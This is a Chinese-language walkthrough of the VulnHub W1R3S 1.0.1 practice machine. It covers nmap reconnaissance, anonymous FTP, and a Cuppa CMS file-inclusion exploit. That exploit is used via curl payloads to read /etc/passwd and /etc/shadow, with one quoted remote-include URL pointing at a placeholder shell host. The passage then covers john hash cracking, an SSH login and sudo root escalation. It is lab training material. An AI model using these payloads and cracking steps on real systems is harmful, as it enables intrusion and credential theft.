思维导图概览
[[W1R3S1.0.1思维导图.xmind]]

	前言
	靶机名称为W1R3S.1.0.1，可以从网站vulnhub，国外的一个，下载比较慢
**地址**：
	https://download.vulnhub.com/w1r3s/w1r3s.v1.0.1.zip

**下载**
```bash
wget https://download.vulnhub.com/w1r3s/w1r3s.v1.0.1.zip
```
	下载下来是个压缩包的形式，用命令解压或者右键解压。
**部署**
	VMware virtual里面直接打开，导入，即可遇到弹出选项点击确定或者我已复制即可，网络连接模式改为NAT，开启之后就行，不用做任何配置。
# 信息收集
**登录Kali系统

	或者用自己的鹦鹉或者带有比较齐全的Ubuntu系统即可。

### Namp扫描

#### 主机存活侦擦

	检查本地地址是否正常
```bash
# 1.本地网络检查
ifconfig

# 2.创建w1R3S1.0.1靶机的nmap信息产出目录
mkdir -p ~/vulnhub/easy/W1R3S1_0_1/nmap_output

# 3.扫描主机在线存活状态
sudo nmap -sn 10.10.10.0/24

```

**信息概览**

	分析：
	128是kali本机的，254和2是VMware的网卡相关信息，只有129是目标地址了

![[Pasted image 20260726164234.png]]

#### 端口扫描

```bash
# 出于对红队安全的问题，进行了低速率，准确性，隐蔽性。有些防火墙会扫描不完整的SYN包，用-sS会暴露
sudo nmap -sT --min-rate 10000 -p- 10.10.10.129 -oA nmap_output
```


**重要知识摘要**

	输出在当前路径下的三种格式的文件后缀分别为.nmap|.gnmap|.xml

>.nmap
>	标准输出/人类可读形式，最常用，最直观的形式。
>	主要给你自己**看**的。用来快速了解扫描结果，分析开放端口和服务。

>.gnmap
>	Grepable 格式 / 机器可解析
>	这是 **“适合 grep 的格式”**。每行一个主机，所有端口信息用 `,` 分隔，非常规整。它**不包含** `.nmap` 文件里的表格线、缩进和解释性文字，只包含纯粹的数据。
>	专门用来**写脚本处理**或用 `grep`、`awk` 快速提取信息。

>.xml
>	XML 格式 / 通用数据交换
>	主要用于**导入其他安全工具**做进一步分析。也是展示最全的

![[Pasted image 20260726171106.png]]


**端口信息整合（跟流程做的）

```bash
grep open nmap_output.nmap | awk -F '/' '{print $1}'
grep open nmap_output.nmap | awk -F '/' '{print $1}' | paste -sd ','
ports=$(grep open nmap_output.nmap | awk -F '/' '{print $1}' | paste -sd ',')
echo $ports
```

![[Pasted image 20260726172107.png]]

#### 服务/版本扫描
```bash
# TCP，重扫描，版本信息探测，扫描时间稍微长一点，可以同时开另外一个会话进行UDP扫描
sudo nmap -sT -O -sV -sC -p 21,22,80,3306 10.10.10.129 -oA detial

# UDP扫描
sudo nmap -sU --top-ports 20 10.10.10.129 -oA udp

# 默认脚本扫描,vuln是漏洞的意思
sudo nmap --script=vuln -p 21,22,80,3306 10.10.10.129 -oA vuln
```

**TCP扫描结论**
	21端口是FTP服务，开放，较高优先级
	22端口是SSH服务，开放，优先级较低
	80端口是HTTP服务，开放，优先级高
	3306端口是MySQL服务，开放，优先级低
	系统版本可能是Linux系统3.x-4.x左右
	Ubuntu系统
![[Pasted image 20260726173131.png]]

**UDP扫描结论**
	服务都是被防火墙过滤掉了。
![[Pasted image 20260726173141.png]]

**漏洞扫描结论**
	漏洞发现：
	80端口有**Slowloris DoS 漏洞**（CVE-2007-6750） + **WordPress 登录页**
	CVE:CVE-2007-6750
	攻击方式：ddos。。。
	真就是流量大，力大砖飞了，暂时不考虑用这个过root
	
![[Pasted image 20260726174752.png]]


# Web渗透
### FTP匿名登录
**尝试匿名登录**

FTP服务匿名账户
user：anonymous（也可以用ftp尝试）
pass：anonymous（或者留空，空密码试试）

**成功登录FTP**
![[Pasted image 20260726175828.png]]

### FTP立足点
**知识点纪要**

| 模式          | 适用场景                  | 特点                        |
| ----------- | --------------------- | ------------------------- |
| binary（二进制） | 图片，压缩包，可执行文件，视频       | 逐字节传输，不转换换行符，适合非文本文件      |
| ascii（文本）   | `.txt`、`.html`、`.php` | 会转换换行符（LF ↔ CRLF），适合纯文本文件 |
**切换binary模式
```bash
binary
```

**关掉提示**
```bash
prompt
```

**文件下载**
```bash
ls

# 多文件下载
mget *.txt
```

![[Pasted image 20260726181023.png]]

![[Pasted image 20260726181118.png]]

**查看是文件信息**
```bash
# 批量查看。txt问本内容
cat *.txt
```

**信息摘要**
```text
New FTP Server For W1R3S.inc
#
#
#
#
#
#
#
#
01ec2d8fc11c493b25029fb1f47f39ce
#
#
#
#
#
#
#
#
#
#
#
#
#
SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==
############################################
___________.__              __      __  ______________________   _________    .__               
\__    ___/|  |__   ____   /  \    /  \/_   \______   \_____  \ /   _____/    |__| ____   ____  
  |    |   |  |  \_/ __ \  \   \/\/   / |   ||       _/ _(__  < \_____  \     |  |/    \_/ ___\ 
  |    |   |   Y  \  ___/   \        /  |   ||    |   \/       \/        \    |  |   |  \  \___ 
  |____|   |___|  /\___  >   \__/\  /   |___||____|_  /______  /_______  / /\ |__|___|  /\___  >
                \/     \/         \/                \/       \/        \/  \/         \/     \/ 
The W1R3S.inc employee list

Naomi.W - Manager
Hector.A - IT Dept
Joseph.G - Web Design
Albert.O - Web Design
Gina.L - Inventory
Rico.D - Human Resources

        ı pou,ʇ ʇɥıuʞ ʇɥıs ıs ʇɥǝ ʍɐʎ ʇo ɹooʇ¡

....punoɹɐ ƃuıʎɐןd doʇs ‘op oʇ ʞɹoʍ ɟo ʇoן ɐ ǝʌɐɥ ǝʍ
```


**结论**

告诉我们说这是一个新的FTP服务，来自于==W1R3S.inc==
同时还有一个加密的字符，我的经验是 `md5`，可以用 Kali 自带的 `hash-identifier` 工具检测哈希类型
还有一个是一个==base64==的编码字符，直接用 `base64 -d` 解码即可
以及最后一个是这个服务的一些==员工名单==，可以利用这个名单进行一些ssh爆破


![[Pasted image 20260726181316.png]]

**破解加密字符**
```bash
# 使用工具
hash-identifier

# 输入加密的 md5，确认类型是 md5 之后，可以用在线网站解密，最后得到明文
# 网站推荐
# [MD5免费在线解密破解_MD5在线加密-SOMD5](https://www.somd5.com/)
01ec2d8fc11c493b25029fb1f47f39ce  # md5值
This is not a password            # 明文，这个不是密码 

# 感觉不对的话，可以用md5进行校验计算
echo -n "This is not a password" | md5sum

# 解密base64字符
SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==   # 密文
It is easy, but not that easy..                # 很简单，但不是这么简单
# 命令
echo "SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==" | base64 -d

# 文本里面呢也有ASCII的一个logo，也可以看看的，复制粘贴，感兴趣的可以去看看
 
# 还有下面的颠倒的字符，也可以解开看看
ı pou,ʇ ʇɥıuʞ ʇɥıs ıs ʇɥǝ ʍɐʎ ʇo ɹooʇ¡

....punoɹɐ ƃuıʎɐןd doʇs ‘op oʇ ʞɹoʍ ɟo ʇoן ɐ ǝʌɐɥ ǝʍ

# 网站推荐：(https://www.upsidedowntext.com/)
# 颠倒之后的。大意是这不是最终通向root，我们还有很多东西要做
we have a ןot of work to do‘ stop pןayıng around˙˙˙˙

!toor ot yaw eht sı sıht knıht t'nod ı
```

![[Pasted image 20260726182609.png]]

![[Pasted image 20260726185129.png]]

**账户信息权重**

| 优先级 | 目标                        | 原因            |
| --- | ------------------------- | ------------- |
| 1   | Hector.A (IT)             | 最高系统权限        |
| 2   | Joseph.G / Albert.O (Web) | 直接接触 CMS      |
| 3   | Naomi.W (Manager)         | 管理权限，密码简单     |
| 4   | Gina.L (Inventory)        | 业务系统权限        |
| 5   | Rico.D (HR)               | 系统权限最低，但可横向移动 |

## 尝试远程登录MySQL
```bash
# 目前只知道有一个root的默认账户，密码不知道或者用root，以及admin尝试
# 结果报错显示不允许远程登录，放弃
mysql -h 10.10.10.129 -u root -p
```

![[Pasted image 20260726191157.png]]

# cuppa CMS渗透
### Web端口访问
**访问网页**
	权重最高的80端口，是一个服务网站默认搭建的一个界面，检查了没有什么可用信息。顺带检查一下源码，源码也没有什么有用的信息，看不懂可以丢给ai让ai解读，不要让ai带着渗透！！

![[Pasted image 20260726175158.png]]

### 目录爆破

尝试一下目录爆破，多试试，说不定就出来了呢，而且之前漏洞扫描也扫到了一个，先爆破目录，看路径进行搞事情
```bash
# dir 目录，字典取中间中等级别的即可
sudo gobuster dir -u http://10.10.10.129 --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

# 扫到了很多，优先建议找状态码200的先看，其后3xx，4xx鹅，并进行尝试访问
[sudo] kali 的密码：
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.129
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
wordpress            (Status: 301) [Size: 316] [--> http://10.10.10.129/wordpress/]
javascript           (Status: 301) [Size: 317] [--> http://10.10.10.129/javascript/]
administrator        (Status: 301) [Size: 320] [--> http://10.10.10.129/administrator/]
server-status        (Status: 403) [Size: 300]
Progress: 220558 / 220558 (100.00%)
===============================================================
Finished
===============================================================
```

**小问题**
去访问这wordpress网站的时候，有一个是突然跳转到了localhost上面了，可以让kalihosts的文件里面写入靶机的地址，应该就可以正常访问了
```bash
vim /etc/hosts

# 添加靶机地址和域名
10.10.10.129    localhost.com
```

emmmm，还是不行，优先级往后一下，先找admin这个

### 部署程序安装
**重大发现**
是一个程序安装界面，应该是一个文章管理系统，类似CMS的痕迹，现实中要划清界限，方案，慎重！！！


![[Pasted image 20260726192854.png]]

**"Next"**
一个部署界面，而且有些帮助描述还有单词错误，应该是一些配置不严谨什么的，拼错了database，拼成databas，很不正常。

在考虑之后，准备填写信息

![[Pasted image 20260726194022.png]]
填写信息：
可以按照自己的想法来
```text
localhost
localhost
Administrator@localhost.comm
```
![[Pasted image 20260726194546.png]]

点击**Next**之后，下面报错了，管理员的用户创建失败，点击**Back**又回到了安装界面。
查看源码之后，也没有任何泄露的信息，以及CMS相关的一些

![[Pasted image 20260726194708.png]]

# CMS漏洞利用
**尝试从网络上下来CMS相关的漏洞信息**
```bash
# 查找相关CMS漏洞信息
searchsploit cuppa cms
searchsploit cuppa 

# 尝试从网络上镜像下来，-m是mirror，镜子，镜像的意思
searchsploit -m 25971
ls
```

![[Pasted image 20260726195732.png]]

**25971的信息**
**漏洞名称**：Cuppa CMS File Inclusion（Cuppa CMS 文件包含漏洞）
**漏洞根源**地址：/alerts/alertConfigField.php
**问题代码**：<?php include($_REQUEST["urlConfig"]); ?>
**利用方式**：
```bash
http://target/cuppa/alerts/alertConfigField.php?urlConfig=php://filter/convert.base64-encode/resource=../Configuration.php
http://target/cuppa/alerts/alertConfigField.php?urlConfig=http://www.shell.com/shell.txt?
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```
![[Pasted image 20260726200040.png]]

**构造payload**
```bash
# 尝试用cms里面的漏洞路径进行访问试试
http://10.10.10.129/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

# 多尝试，上面的那个没找到文件，继续试试，administrator当作根目录试试
# 有东西了，但是没完全读取出来，检察源码信息，也没有一些可用的.
http://10.10.10.129/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

```



**CMS信息代码审计**

	从上面的文档得知，结合了查询了一些cms相关你的资料，国外的有些网站，服务之类的都会挂在官网cms和一些三方cms上面，可以用上面的地址进行访问试试。

```bash
# 可以尝试下载试试
wget http://jaist.dl.sourceforge.net/project/cuppacms/cuppa_cms.zip
```

可能源不在了，应该是我网络的问题。。。就用浏览器搜！！！CMS



cuppa cms官方地址，结合cms漏洞的文档，找到/alerts/alertConfigField.php文件，第22行的<?php include($_REQUEST["urlConfig"]); ?>



行数描述不一定是22，可以用CTRL+F搜索，大致意思是有个文件包含用POST形式进行传参，可以用bp或者其他命令行工具进行构造payload。
```php
<?php include "../components/table_manager/fields/config/".@$cuppa->POST("urlConfig"); ?>

```



```bash
# curl 默认用的是get访问的，可以用curl --help用来查询一些用法，这里--data-urlencode是用于url编码，并且用POST传入的
 curl --data-urlencode 'urlConfig=../../../../../../../../../etc/passwd' http://10.10.10.129/administrator/alerts/alertConfigField.php
```

## john爆破
```bash
# 截取了一段有价值的/etc/passwd目录下的账号密码，可以用john来爆破
# /etc/passwd 里的密码字段是 x 不代表密码本身，而是表示密码哈希存储在 /etc/shadow 里（现代 Linux 的标准做法）
# 所以需要继续用 curl 读取 /etc/shadow 才能拿到真正的密码哈希
root:x:0:0:root:/root:/bin/bash                 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
w1r3s:x:1000:1000:w1r3s,,,:/home/w1r3s:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:122:129:ftp daemon,,,:/srv/ftp:/bin/false
mysql:x:123:130:MySQL Server,,,:/nonexistent:/bin/false**
```

图片更加直观


**读取/etc/shadow密码**
```bash
# 读取/etc/shadow文件信息
curl --data-urlencode 'urlConfig=../../../../../../../../../etc/shadow' http://10.10.10.129/administrator/alerts/alertConfigField.php
```

**密码回显**
```bash
# 拿到了一串经过加密的哈希，用john爆破

root:$6$vYcecPCy$JNbK.hr7HU72ifLxmjpIP9kTcx./ak2MM3lBs.Ouiu0mENav72TfQIs8h1jPm2rwRFqd87HDC0pi7gn9t7VgZ0:17554:0:99999:7:::
daemon:*:17379:0:99999:7:::
bin:*:17379:0:99999:7:::
sys:*:17379:0:99999:7:::
sync:*:17379:0:99999:7:::
games:*:17379:0:99999:7:::
man:*:17379:0:99999:7:::
lp:*:17379:0:99999:7:::
mail:*:17379:0:99999:7:::
news:*:17379:0:99999:7:::
uucp:*:17379:0:99999:7:::
proxy:*:17379:0:99999:7:::
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
backup:*:17379:0:99999:7:::
list:*:17379:0:99999:7:::
irc:*:17379:0:99999:7:::
gnats:*:17379:0:99999:7:::
nobody:*:17379:0:99999:7:::
systemd-timesync:*:17379:0:99999:7:::
systemd-network:*:17379:0:99999:7:::
systemd-resolve:*:17379:0:99999:7:::
systemd-bus-proxy:*:17379:0:99999:7:::
syslog:*:17379:0:99999:7:::
_apt:*:17379:0:99999:7:::
messagebus:*:17379:0:99999:7:::
uuidd:*:17379:0:99999:7:::
lightdm:*:17379:0:99999:7:::
whoopsie:*:17379:0:99999:7:::
avahi-autoipd:*:17379:0:99999:7:::
avahi:*:17379:0:99999:7:::
dnsmasq:*:17379:0:99999:7:::
colord:*:17379:0:99999:7:::
speech-dispatcher:!:17379:0:99999:7:::
hplip:*:17379:0:99999:7:::
kernoops:*:17379:0:99999:7:::
pulse:*:17379:0:99999:7:::
rtkit:*:17379:0:99999:7:::
saned:*:17379:0:99999:7:::
usbmux:*:17379:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
sshd:*:17554:0:99999:7:::
ftp:*:17554:0:99999:7:::
mysql:!:17554:0:99999:7:::
```



```bash
# 先将这些有哈希值的账户保存下来，建议全部复制，然后存到shadow.hash的文件，名字自己起
# 按ESC键，光标移动到要删除的一行，按两次dd即可快速删除
vim shadow.hash

# john爆破，先试试用默认的让john自己去破解，破解不了再上参数，不会用john的可以移步另外一份john的文档参看
john shadow.hash
```

**爆破回显**
```bash
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Remaining 2 password hashes with 2 different salts
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
computer         (w1r3s)     
Proceeding with incremental:ASCII
1g 0:00:00:32  3/3 0.03076g/s 17328p/s 17360c/s 17360C/s plees..mangsha1
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
                                                                                                                                                                                               
┌──(kali㉿kali)-[~/vulnhub/easy/W1R3S_1_0_1/nmap_output]
└─$ john --show shadow.hash

www-data:www-data:17560:0:99999:7:::
w1r3s:computer:17567:0:99999:7:::

2 password hashes cracked, 1 left
```

拿到两个密码了，还有一个root在跑，先试试ssh能否连接上。w1r3s这个用户的信息比较重要，先这个


## SSH连接

```bash
# ssh连接
ssh w1r3s@10.10.10.129

# 回显
----------------------
Think this is the way?        # 这是正确的路吗？
----------------------
Well,........possibly.        # 嗯。。。很可能。 
----------------------
```



输入密码：
computer

==成功登录！！！==

# 提权/立足点
```bash
# 查看当前用户名
whoami

# 查看当前系统内核
uname -a

# 查看当前网路信息
ip a

# 查看当前工作路径
pwd

# 查看当前id信息
id

# 查看当前权限
sudo -l

# 开启一个 /bin/bash 高权限的会话
sudo /bin/bash

# 同上
whoami
pwd
cd /root
cat flag.txt

```

